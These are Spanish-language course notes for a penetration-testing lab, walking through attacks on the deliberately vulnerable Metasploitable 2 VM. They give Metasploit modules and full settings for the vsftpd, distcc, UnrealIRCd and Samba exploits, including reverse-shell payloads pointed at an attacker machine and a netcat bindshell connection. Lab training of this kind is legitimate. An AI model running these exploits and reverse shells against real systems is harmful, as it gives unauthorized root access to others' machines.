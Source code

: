 ```yaml
---
title: Práctica Meterpreter
modulo: M4 - Explotación y Post-Explotación
fecha: 2025-07-23
vm: https://drive.google.com/drive/folders/17_s4xiWqbh-mRCX5FazMp-pEpokJBE70
layout: apunte
slug: 2025-07-23-prctica-meterpreter
---
```

# Explotación a Metasploitable 2

## 1. vsftp
- Tiene **backdoor con shell root instantánea**.
- Exploit: `unix/ftp/vsftpd_234_backdoor`.


## 2. bindshell
- Es literalmente un shell root abierto.
- Explot (Desde la kali): `nc 10.0.2.17 1524`

![[metasploit_bindshell.png]]


## 3. distccd
- Explotable para RCE
- Exploit: `unix/misc/distcc_exec`

```bash
use exploit/unix/misc/distcc_exec
```

Configuración de objetivo y payload (Perl)
```bash
set RHOSTS 10.0.2.17
set RPORT 3632
set PAYLOAD cmd/unix/reverse_perl
set LHOST 10.0.2.6     
set LPORT 4444
run
```
🔹 **Donde:**
- `RHOSTS` es la IP de la víctima (la Metasploitable)
- `RPORT` es el puerto donde corre distccd
- `PAYLOAD` es la shell reversa
- `LHOST` la IP del atacante (la Kali)

![[metasploit_distccd.png]]


## 4. UnrealIRCd
- Versión vulnerable con backdoor RCE
- Exploit: `unix/irc/unreal_ircd_3281_backdoor`

Configuración de objetivo y payload:
```bash
set RHOSTS 10.0.2.17
set RPORT 6667
set PAYLOAD cmd/unix/reverse
set LHOST 10.0.2.6
set LPORT 4444
run
```
![[metasploit_unreall.png]]


## 5. Samba
- Varias vulnerabilidades conocidas (RCE).
- Exploit típico: `exploit/multi/samba/usermap_script`.

```bash
use exploit/multi/samba/usermap_script
```

Configuración de parámetros:
```bash
set RHOSTS 10.0.2.17
set PAYLOAD cmd/unix/reverse
set LHOST 10.0.2.6
set LPORT 4444
run
```
![[meterpreter_samba.png]]

## 6. Apache Tomcat
- Permite subida de WAR maliciosos si hay credenciales por defecto.
#Pendiente

